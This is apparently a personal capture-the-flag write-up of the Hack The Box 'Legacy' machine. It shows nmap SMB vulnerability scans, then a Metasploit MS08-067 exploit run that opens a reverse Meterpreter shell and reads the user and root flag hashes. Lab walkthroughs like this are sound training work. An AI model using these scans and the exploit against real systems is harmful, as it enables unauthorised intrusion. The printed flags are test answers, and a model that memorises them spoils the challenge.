 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Legacy
tags: []
---
```

**Start 20:20 13-08-2024**

---
```
10.10.10.4
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.4                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 19:18 IST
Nmap scan report for 10.10.10.4
Host is up (0.085s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT --script=smb-vuln* -T5 10.10.10.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 19:29 IST
Nmap scan report for 10.10.10.4
Host is up (0.084s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.35 seconds

```

We see that this `samba` version is indeed vulnerable, and after looking it up online we find many exploits for it. Let's choose one of them.

## Metasploit
We can use `metasploit` to search for a module that we can use in order to exploit this samba version:

```bash
msf6 > search CVE-2008-4250

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi
```

We press `use 0` and then `show options` to display all our options.
After setting `RHOSTS` to the target `IP_ADDR`, and `LHOST` to our own IP we can run the exploit.

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.24:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.4:1038) at 2024-08-13 19:37:57 +0100

meterpreter > 
```

Afterwards type `shell` to get a `Powershell shell`.

```bash
meterpreter > shell
Process 288 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

From here on it's a piece of cake. We got `root` permissions so we can get both flags in their respective directories.

### user.txt
```powershell
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69af0e4f443de7e36876fda4ec7644f
```

### root.txt
```powershell
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
```

![](../../../assets/0c6c1adb2b45cae6cb027840756a08d7.png)

---

**Finished 20:47 13/08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
